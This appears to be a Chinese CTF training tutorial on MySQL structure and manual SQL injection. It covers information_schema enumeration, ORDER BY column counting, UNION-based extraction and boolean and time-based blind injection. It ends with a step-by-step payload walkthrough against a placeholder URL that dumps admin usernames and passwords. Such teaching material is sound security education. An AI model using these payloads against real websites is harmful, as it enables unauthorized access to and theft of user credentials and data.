# CTF最强战队蓝莲花内部培训教程：P38：SQL查询与手工注入 🛡️





在本节课中，我们将学习MySQL数据库安全的核心部分：SQL查询与手工注入。我们将从了解数据库的基本结构开始，逐步学习如何利用SQL语句进行信息探测和数据提取，最终完成一次完整的手工注入过程。



## 了解MySQL数据库结构 🗂️



上一节我们介绍了数据库的基础概念，本节中我们来看看MySQL数据库的内部结构。MySQL自带一个名为 `information_schema` 的系统数据库，它存储了关于所有其他数据库的元数据（metadata），是我们进行信息探测的关键。



以下是 `information_schema` 数据库中最重要的三张表：



*   **`SCHEMATA` 表**：记录了当前MySQL服务器中所有的数据库名。关键列是 `SCHEMA_NAME`。
*   **`TABLES` 表**：记录了所有数据库中的所有表名。关键列是 `TABLE_NAME` 和 `TABLE_SCHEMA`（表所属的数据库名）。
*   **`COLUMNS` 表**：记录了所有表中的所有列名。关键列是 `COLUMN_NAME`、`TABLE_NAME` 和 `TABLE_SCHEMA`。



我们可以通过SQL命令来查询这些信息：





```sql
-- 查询所有数据库名
SELECT SCHEMA_NAME FROM information_schema.SCHEMATA;

-- 查询指定数据库（如`mysql`）中的所有表名
SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = ‘mysql’;



-- 查询指定表（如`user`）中的所有列名
SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_NAME = ‘user’;
```

## 基础SQL语句与逻辑判断 🔍



掌握了数据库结构后，我们使用基础的SQL语句进行练习。`WHERE` 子句用于过滤记录，其后可以添加逻辑判断。

```sql
-- 查询 students 表的所有内容
SELECT * FROM students;



-- 查询 name 为 ‘韩寒’ 的记录
SELECT * FROM students WHERE name = ‘韩寒’;



-- 利用逻辑判断：1=1 恒真，返回所有记录
SELECT * FROM students WHERE name = ‘韩寒’ AND 1=1;



-- 1=2 恒假，不返回任何记录
SELECT * FROM students WHERE name = ‘韩寒’ AND 1=2;
```

## 使用 ORDER BY 判断查询列数 📊



`ORDER BY` 子句用于对结果集进行排序。在注入中，我们可以利用它来探测原始查询返回的列数。



```sql
-- 尝试按第4列排序，如果报错，说明查询结果列数小于4
SELECT name, age FROM students ORDER BY 4;
-- 尝试按第3列排序，如果正常，说明查询结果至少有3列
SELECT name, age FROM students ORDER BY 3;
```



`ORDER BY` 后面的数字代表结果集中的列序号，而不是表的总列数。

## 联合查询 (UNION) 及其应用 🔗



联合查询 `UNION` 用于合并两个或多个 `SELECT` 语句的结果集。要成功进行 `UNION` 注入，必须满足两个条件：1) 各个查询的列数必须相同；2) 列的数据类型必须兼容。

```sql
-- UNION 会自动去重
SELECT name FROM table1 UNION SELECT name FROM table2;
-- UNION ALL 会保留所有重复记录
SELECT name FROM table1 UNION ALL SELECT name FROM table2;
```

我们可以利用联合查询来获取额外信息：

```sql
-- 原始查询可能只返回两列，我们构造一个两列的联合查询
SELECT name, age FROM students WHERE name=‘韩寒’ UNION SELECT 1, 2;



-- 联合查询可以执行函数，获取系统信息
SELECT name, age FROM students WHERE name=‘韩寒’ UNION SELECT database(), version();
```



## 常用系统函数与信息获取 ℹ️



MySQL提供了一些函数，可以方便地获取数据库系统信息。



```sql
SELECT database(); -- 返回当前数据库名
SELECT version();  -- 返回MySQL版本
SELECT user();     -- 返回当前用户名
SELECT @@version_compile_os; -- 返回操作系统信息
```

## 高级 ORDER BY 注入技巧 🧩

我们可以将逻辑判断嵌入 `ORDER BY` 子句，实现基于布尔值（True/False）或时间延迟的盲注。

以下是基于布尔值的盲注示例：

```sql
-- 如果条件为真，按第一列(name)排序；为假，按第二列(age)排序
SELECT * FROM students ORDER BY IF(1=1, name, age);
SELECT * FROM students ORDER BY IF(1=2, name, age);



-- 结合正则表达式(REGEXP)进行更复杂的判断
SELECT * FROM students ORDER BY IF(SUBSTR(user(),1,1)=‘r‘, 1, (SELECT 1 UNION SELECT 2));
-- 如果 user() 的第一个字符是 ‘r‘，则按第1列排序（正常），否则按一个多行结果排序（报错）
```

以下是基于时间的盲注示例：



```sql
-- 如果条件为假，则执行 SLEEP(2)，导致查询延迟
SELECT * FROM students ORDER BY IF(1=2, 1, SLEEP(2));
```

## 手工注入实战：逐步获取数据 🎯

现在，我们将上述技巧组合起来，模拟一次完整的手工SQL注入过程。假设目标URL存在注入点：`http://example.com/page.php?id=14`



**1. 确认注入点**
```sql
http://example.com/page.php?id=14 AND 1=1 -- 页面正常
http://example.com/page.php?id=14 AND 1=2 -- 页面异常（无数据或错误）
```
页面表现不同，说明 `id` 参数可能存在注入。



**2. 判断列数**
```sql
http://example.com/page.php?id=14 ORDER BY 5 -- 报错
http://example.com/page.php?id=14 ORDER BY 4 -- 正常
```
说明原始查询返回 **4** 列。

**3. 确定回显点**
```sql
http://example.com/page.php?id=14 UNION SELECT 1,2,3,4 -- 
```
观察页面，看数字 `1`、`2`、`3`、`4` 哪个被显示出来。假设数字 `3` 被显示，说明第3列的内容会输出到页面上。

**4. 获取数据库信息**
```sql
http://example.com/page.php?id=14 UNION SELECT 1,2,database(),4 -- 获取当前库名
http://example.com/page.php?id=14 UNION SELECT 1,2,user(),4    -- 获取当前用户
http://example.com/page.php?id=14 UNION SELECT 1,2,version(),4 -- 获取版本
```



**5. 获取表名**
```sql
-- 获取第一个表名
http://example.com/page.php?id=14 UNION SELECT 1,2,table_name,4 FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1
-- 获取第二个表名
http://example.com/page.php?id=14 UNION SELECT 1,2,table_name,4 FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1
```



**6. 获取列名**
假设我们猜到一个表名为 `admin`。
```sql
-- 获取 admin 表的第一个列名
http://example.com/page.php?id=14 UNION SELECT 1,2,column_name,4 FROM information_schema.columns WHERE table_schema=database() AND table_name=‘admin‘ LIMIT 0,1
```

**7. 提取数据**
假设 `admin` 表有 `username` 和 `password` 列。
```sql
-- 提取用户名和密码
http://example.com/page.php?id=14 UNION SELECT 1,2,username,4 FROM admin LIMIT 0,1
http://example.com/page.php?id=14 UNION SELECT 1,2,password,4 FROM admin LIMIT 0,1
```

## 总结 📝





本节课中我们一起学习了SQL查询与手工注入的核心技术。我们从剖析 `information_schema` 数据库开始，掌握了如何获取库名、表名和列名。接着，我们深入练习了 `WHERE` 子句的逻辑判断、`ORDER BY` 测列数、`UNION` 联合查询等基础技巧，并探讨了基于布尔和时间的盲注等高级方法。最后，我们通过一个完整的实战案例，串联所有知识点，演示了如何一步步从注入点探测到最终的数据窃取。理解这些手工注入的原理和步骤，是构建自动化工具和进行更复杂漏洞利用的坚实基础。